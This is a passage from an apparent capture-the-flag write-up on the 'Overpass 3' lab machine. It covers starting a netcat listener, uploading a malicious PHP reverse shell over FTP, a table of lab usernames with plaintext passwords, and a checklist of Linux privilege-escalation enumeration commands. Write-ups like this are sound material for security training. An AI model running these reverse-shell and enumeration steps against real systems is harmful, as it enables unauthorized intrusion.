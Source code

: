 * `nc -lvnp [PORT]`

Upload the updated reverse shell file via `FTP` service and navigate to webpage where we uploaded the malicious `.php` file. It should be on web root (e.g., `overpass3.thm/[filename].php`)

![RevShell Success](../imgs/Overpass3/popped_revshell.png)

### Table 1.2: Credentials

Name | Username | Password
:---: | :---: | :---:
Par. A. Doxx    | paradox | ShibesAreGreat123
0day Montgomery | 0day | OllieIsTheBestDog
Muir Land | muirlandoracle | A11D0gsAreAw3s0me

## Post-Exploitation

### *Internal Enumeration*

#### Table 1.3: Checklist for Linux Internal Enumeration

COMMAND | DESCRIPTION
:---: | :---:
``ss -tlnp``  | lists all sockets (``-t = tcp``) (``-l = listening``) (``-n = numeric``) (``-p = processes``)
``netstat -tulnp`` | &nbsp; |  &nbsp;
``sudo -l`` | lists all binaries/files/programs the current user has ``sudo`` permissions. (might require password)
``find / -type f -user root -perm -u+s 2>/dev/null`` | finds files in ``/`` directory that has [SUID](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/) bit set. If any, consult [GTFOBins](https://gtfobins.github.io/).
``uname -a`` | prints system information (-a = all)
``whoami && id`` | prints `effective userid` (EUID) and prints `real` and `effective userid` and `groupids` (GID).
``cat /etc/crontab`` | checks for cron jobs.

*Notes: For more information about the commands look [here](https://explainshell.com)*

*Tip: When nothing else makes sense, try to use [LinPEAS](https://github.com/carlospolop/PEASS-ng) ([winPEAS](https://github.com/carlospolop/PEASS-ng) for windows machines.).*

Let's check the `/etc/passwd` file to see which users has login shell.
